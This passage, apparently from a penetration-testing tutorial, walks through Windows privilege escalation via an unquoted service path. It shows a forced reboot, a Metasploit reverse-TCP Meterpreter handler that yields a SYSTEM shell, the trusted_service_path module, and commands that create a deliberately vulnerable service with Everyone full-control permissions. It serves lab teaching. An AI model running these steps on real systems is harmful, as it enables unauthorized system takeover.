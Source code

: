 Access is denied.
C:\Users\testuser\Desktop>
```
Access is denied because we don’t have permission to stop or start service. However, it’s not a big deal, we can wait for someone to restart machine, or we can do it ourselves with shutdown command:
```
C:\Users\testuser\Desktop>shutdown /r /t 0
shutdown /r /t 0
C:\Users\testuser\Desktop>
[*] 192.168.2.40 - Meterpreter session 8 closed. Reason: Died
```
As you can see, our session is died. We’ll never forget you low-priv shell. RIP. Our target machine is restarting now. Soon, our payload will work as SYSTEM. We should start a handler right away.
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.60 
lhost => 192.168.2.60
msf exploit(handler) > set lport 8989
lport => 8989
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.40
[*] Meterpreter session 1 opened (192.168.2.60:8989 -> 192.168.2.40:49156) at 2017-01-04 22:37:17 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
[*] 192.168.2.40 - Meterpreter session 1 closed.  Reason: Died
```
Now we have gotten a meterpreter shell with SYSTEM privileges. High five! But wait, why did our session die so quickly? We just started! No need to worry. It’s because, when a service starts in Windows operating systems, it must communicate with the Service Control Manager. If it’s not, Service Control Manager thinks that something is not going well and terminates the process. All we need to do is migrate before termination of our payload, or you can consider using auto-migration. 😉

BTW there is a metasploit module for checking and exploiting this vulnerability: exploit/windows/local/trusted_service_path. This module only requires that you link it to an existing Meterpreter session before running:
```
msf > use exploit/windows/local/trusted_service_path
msf exploit(trusted_service_path) > show options
Module options (exploit/windows/local/trusted_service_path):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
Exploit target:
   Id  Name
   --  ----
   0   Windows
```
However, it’s always good to know internals. 😉 If you want to demonstrate this vulnerability yourself, you can add a vulnerable service to your test environment:
```
C:\Windows\System32>sc create "Vulnerable Service" binPath= "C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe" start=auto
C:\Windows\System32>cd C:\Program Files (x86)
C:\Program Files (x86)>mkdir "Program Folder\A Subfolder"
C:\Program Files (x86)>icacls "C:\Program Files (x86)\Program Folder" /grant Everyone:(OI)(CI)F /T
Services with Vulnerable Privileges
```
```